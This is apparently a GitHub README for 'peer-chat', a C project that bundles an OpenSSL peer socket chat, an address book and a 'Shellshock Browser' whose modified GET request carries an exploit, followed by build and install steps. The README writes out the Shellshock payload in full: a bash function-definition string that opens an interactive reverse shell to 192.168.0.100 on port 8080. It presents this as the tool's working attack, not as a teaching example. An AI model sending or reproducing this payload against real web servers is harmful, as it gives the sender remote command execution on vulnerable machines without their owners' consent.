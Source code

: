 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    A useful Link: 
    http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"

# building
* On Linux: make

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

# install
* On Linux: sudo make install

# uninstall
* On Linux: sudo make uninstall

# clean
* On Linux: make clean
